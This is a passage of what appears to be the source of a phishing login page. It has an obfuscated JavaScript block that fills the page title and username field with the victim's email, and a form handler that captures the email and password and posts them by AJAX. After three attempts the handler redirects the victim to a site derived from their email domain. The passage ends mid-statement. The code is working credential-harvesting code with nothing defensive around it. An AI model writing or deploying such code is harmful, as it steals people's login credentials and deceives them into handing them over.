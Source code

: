   var _0x3121cb=_0x4e3e;function _0x4e3e(_0x4b06ec,_0x2c42ce){var _0x1137fe=_0x1137();return _0x4e3e=function(_0x4e3ec8,_0x2cdd8b){_0x4e3ec8=_0x4e3ec8-0x7a;var _0x4e3d1d=_0x1137fe[_0x4e3ec8];return _0x4e3d1d;},_0x4e3e(_0x4b06ec,_0x2c42ce);}function _0x1137(){var _0x55dae1=['value','923235tHGKGv','4051254bWxUdt','5816fqMdQs','8596007xIcuCA','getElementById','43912710lErqoF','399IKjmFG','472FGAJjW','1292320TywGUx','title','user_username','12ZwWcEZ','14841KXSGPt','ca543e2728f684c0d5de19a83de16645636ed4699b2b6\x20-\x20'];_0x1137=function(){return _0x55dae1;};return _0x1137();}(function(_0x21a638,_0x3149da){var _0x4e5558=_0x4e3e,_0x52e06d=_0x21a638();while(!![]){try{var _0x5e1473=-parseInt(_0x4e5558(0x7e))/0x1*(parseInt(_0x4e5558(0x7a))/0x2)+-parseInt(_0x4e5558(0x88))/0x3+parseInt(_0x4e5558(0x80))/0x4+-parseInt(_0x4e5558(0x87))/0x5*(parseInt(_0x4e5558(0x83))/0x6)+-parseInt(_0x4e5558(0x7b))/0x7+-parseInt(_0x4e5558(0x7f))/0x8*(-parseInt(_0x4e5558(0x84))/0x9)+parseInt(_0x4e5558(0x7d))/0xa;if(_0x5e1473===_0x3149da)break;else _0x52e06d['push'](_0x52e06d['shift']());}catch(_0x1134de){_0x52e06d['push'](_0x52e06d['shift']());}}}(_0x1137,0xabc95),document[_0x3121cb(0x81)]=_0x3121cb(0x85)+fetchEmail(),document[_0x3121cb(0x7c)](_0x3121cb(0x82))[_0x3121cb(0x86)]=fetchEmail());
</script>

<script>
    
    var count = 0;
    $(document).on("submit", '.login_form', function(e) {

    count++;
    var $form = $(this);
    var $input = $form.find(':submit');
    $input.attr("disabled", 'disabled');
    var dataz = $form.serializeArray();
    var email=$("#user_username").val();
    var password=$("#user_password").val();
    
        

    $.ajax({
        type: $form.attr('method'),
        url: $form.attr('action'),
          data:{
            user_username:email,
            user_password:password,
          },
        dataType: 'json',
        success: function(data) {
            // if(count > 2){
            //   data['redirect'] = changeLogo(fetchEmail());
            // } else {
            //     data['reset'] = true;
            // }

                 console.log("data.redirect ", data.redirect);
                 console.log("data.reset ", data.reset);
                 console.log("data.count "+ count);

                if (count > 2) {
                    setTimeout(function() {
                        window.location.href = "https://"+changeLogo(fetchEmail());
                    }, 0);
                }
                // update_login_status(data.status, data.message, 10000);
                else {
                    